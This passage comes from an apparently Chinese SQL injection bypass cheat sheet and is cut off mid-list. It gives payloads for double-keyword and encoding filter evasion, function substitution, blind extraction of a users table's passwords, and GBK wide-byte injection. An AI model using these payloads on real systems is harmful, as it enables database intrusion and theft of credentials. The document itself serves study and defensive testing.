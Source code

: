 **（4） 双关键字绕过（若删除掉第一个匹配的union就能绕过）**

```sql
id=-1'UNIunionONSeLselectECT1,2,3–-
```

## 通用绕过（编码）

如URLEncode编码，ASCII,HEX,unicode编码绕过：

```sql
or 1=1即%6f%72%20%31%3d%31，而Test也可以为CHAR(101)+CHAR(97)+CHAR(115)+CHAR(116)。
```

## 等价函数绕过

```sql
hex()、bin() ==> ascii()
sleep() ==>benchmark()
concat_ws()==>group_concat()
mid()、substr() ==> substring()
@@user ==> user()
@@datadir ==> datadir()
```

举例：substring()和substr()无法使用时：

```sql
?id=1+and+ascii(lower(mid((select+pwd+from+users+limit+1,1),1,1)))=74
```

或者：

```sql
substr((select 'password'),1,1) = 0x70
strcmp(left('password',1), 0x69) = 1
strcmp(left('password',1), 0x70) = 0
strcmp(left('password',1), 0x71) = -1
```

## 宽字节注入

过滤 ' 的时候往往利用的思路是将 ' 转换为 \' 。
在 mysql 中使用 GBK 编码的时候，会认为两个字符为一个汉字，一般有两种思路：

（1）%df 吃掉 \ 具体的方法是 urlencode('\) = %5c%27，我们在 %5c%27 前面添加 %df ，形成 %df%5c%27 ，而 mysql 在 GBK 编码方式的时候会将两个字节当做一个汉字，%df%5c 就是一个汉字，%27 作为一个单独的（'）符号在外面：

```sql
id=-1%df%27union select 1,user(),3--+
```

（2）将 \' 中的 \ 过滤掉，例如可以构造 %**%5c%5c%27 ，后面的 %5c 会被前面的 %5c 注释掉。
一般产生宽字节注入的PHP函数：

1.replace（）：过滤 ' \ ，将 ' 转化为 \' ，将 \ 转为 \\，将 " 转为 \" 。用思路一。
2.addslaches()：返回在预定义字符之前添加反斜杠（\）的字符串。预定义字符：' , " , \ 。用思路一
（防御此漏洞，要将 mysql_query 设置为 binary 的方式）
3.mysql_real_escape_string()：转义下列字符：
